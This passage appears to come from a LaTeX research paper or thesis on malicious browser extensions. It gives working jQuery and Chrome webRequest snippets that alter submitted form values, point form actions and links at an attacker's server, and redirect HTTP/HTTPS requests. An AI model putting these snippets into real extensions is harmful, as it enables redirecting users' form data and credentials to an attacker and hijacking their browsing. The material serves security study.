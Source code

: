 	\begin{code}
		\begin{lstlisting}
$('form').submit(function() {
	$(this)
		.find('input[name=' + TARGETED_FORM_KEY + ']')
		.val(MANIPULATED_FORM_VALUE);
});
\end{lstlisting}
		\caption{Content script to manipulate a form if the user submits it.}
		\label{code:manipulateForm}
	\end{code}

	We can change the target to which the values of a form are transmitted by manipulating the forms \texttt{action} attribute. For that purpose, we use the following code snippet: \lstinline|$('form').attr('action', TARGET_URL);|. First, we query for a form element and then we set its action attribute to our targeted URL. Similar, we can change the target web page of a link element. For that purpose, we change the value of the link's \texttt{href} attribute. Again, we us a small code snippet: \lstinline|$('a[href~=' + TARGETED_URL + ']').attr('href', TARGET_URL);|. This time, we query for a link element whose current URL belongs to our targeted web page and exchange the URL with the one of our malicious server. We implemented an equal attack which uses the \texttt{webRequst} module instead of a content script. This allows us to redirect any web request. To execute this attack, the extension needs the \texttt{webRequest} and \texttt{webRequestBlocking} permissions and proper host permissions for the targeted web page such as \texttt{http://*/*} and \texttt{https://*/*}. 
	
	We show our implementation in \autoref{code:redirectRequest}. Initially, we register a listener that is triggered when the browser initiates a web request (line 1). Additionally, we explicit state that our listener is triggered on any HTTP or HTTPS request and that it is executed in a blocking manner which results in the request being blocked until our listener returns (line 6). Inside the listener, we check if the request's URL matches our targeted URL (line 2) and in this case return the URL of our target server as redirection URL (line 3).
	
	\begin{code}
		\begin{lstlisting}
chrome.webRequest.onBeforeRequest.addListener(function(details){
	if(details.url === TARGETED_URL) {	
		return({ 'redirectUrl': TARGET_URL });
	}
},
{urls: ['https://*/*', 'http://*/*']}, ['blocking']);	
\end{lstlisting}
		\caption{Extension code to redirect a request.}
		\label{code:redirectRequest}
	\end{code}
	
